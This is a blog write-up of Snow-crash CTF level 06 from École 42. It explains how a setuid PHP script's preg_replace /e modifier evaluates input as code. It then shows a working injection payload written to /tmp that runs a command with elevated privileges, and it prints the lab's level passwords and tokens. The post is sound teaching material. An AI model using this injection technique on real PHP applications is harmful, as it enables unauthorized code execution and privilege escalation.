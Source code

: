 ```yaml
---
title:  "Snow-crash Level06"
excerpt: "Project SECURITY. This project is a modest introduction to the wide world of cyber security. A world where you’ll have no margin for errors."

tags:
  - CyberSecurity
  - Github
  - Git
toc: true
toc_sticky: true

date: 2024-2-14
last_modified_at: 2024-02-14
categories: 
   - ecole42s
---
```


#### 1. The password of `Level06` is the token that got from `Level05`.

```
viuaaale9huek52boumoomioc
```
#### 2. So, try login to Level06 with the password we got from Level05 and try to put the command `ls`. We can see the file `Level06`. 
```bash
level05@SnowCrash:/var/mail$ su level06
Password:
level06@SnowCrash:~$ ls -la
total 24
dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout
-r-x------  1 level06 level06 3518 Aug 30  2015 .bashrc
-r-x------  1 level06 level06  675 Apr  3  2012 .profile
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
level06@SnowCrash:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
```

We can see the level06.php file, so I tried to execute it first. Nothing came out but we verified that this php file worked correctly.

```bash
level06@SnowCrash:~$ cat level06.php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```
#### 3. We can convert this to readable at the site below.

[Online PHP beautifier](https://beautifytools.com/php-beautifier.php)

```bash
#!/usr/bin/php
<?php
function y($m) # Define function y
{
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
}
function x($y, $z)  # Define function x
{
    $a = file_get_contents($y); 
    #Read the contents of file $y
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    # Replace [x ...] with the result of calling function y on the captured group (\2)
    $a = preg_replace("/\[/", "(", $a); # Replace [ with (
    $a = preg_replace("/\]/", ")", $a); # Replace ] with )
    return $a;
}
$r = x($argv[1], $argv[2]); #all function x with command line arguments
print $r; #Print the result
?>
```

If we break down in to the php code,

* Function y($m):

    * Replaces dots (.) with spaces (' x ') and replaces '@' with the string 'y' in the string $m, then returns the result.

* Function x($y, $z): takes two inputs

    * Reads the contents of the file specified by $y and stores it in $a.
    
    * /(\[x (.*)\])/e : The given regular expression is a regular expression used in PHP. It matches a string starting with "x" inside square brackets. The part inside the square brackets is a capture group represented by the pattern (.\*), which matches any string.

    * /e: This flag evaluates the matched pattern and returns it. It is a special flag used only in PHP, allowing the matched pattern to be evaluated as PHP code.

    * Replaces remaining [ and ] characters with ( and ), respectively.

    * Returns the result.

* Variable $r:

    * Stores the result of the x() function call.

* Output:

    * Prints the result.

In summary, this regular expression finds the pattern [x ...] in a string and evaluates it as PHP code, enabling the string to be transformed into dynamically executable PHP code.

<details>
<summary> Example Regex (Regular expression) </summary>
<br><br>
For example, consider the following string:
<br><br>

<pre>
<code>
[x echo "Hello, world!"]
</code>
</pre>
Suppose you want to find the [x ...] part in this string and execute PHP code inside it.
<br><br>
In this case, you can use the regular expression /(\[x (.*)\])/e, and with this regular expression, you can use the preg_replace() function in PHP as follows:

<pre>
<code>
$string = "[x echo \"Hello, world!\"]";
$result = preg_replace('/(\[x (.*)\])/e', "$2", $string);
echo $result; // Output: Hello, world!
</code>
</pre>
<br>
In the above code, $2 represents the second capture group, which corresponds to the PHP code inside the [x ...] part. <br><br>Therefore, the preg_replace() function finds the matching pattern [x ...], evaluates and executes the PHP code inside it (in this case, echo "Hello, world!"), and returns the result.<br><br> 
In this case, it returns the string "Hello, world!"."


</details>

#### 4. We want to modify the input string `[x (anything here)]` so that the second capture group in the regular expression will be replaced by `${'getflag'}`. This way, when the function y() is called, it will execute the command getflag.

#### 5. So, our modified input string should be [x ${'getflag'}]. This will allow us to use variable interpolation to execute the getflag command within the y() function.

```bash
level06@SnowCrash:~$ echo '[x {${`getflag`}}]' > /tmp/getflag
level06@SnowCrash:~$ cat /tmp/getflag
[x {${`getflag`}}]
```

#### 6. And we can get the password as below.

```bash
level06@SnowCrash:~$ ./level06 /tmp/getflag
PHP Notice:  Undefined variable:
Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
 ```

 ####  7. We got a token for level07

 ```bash
 Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 ```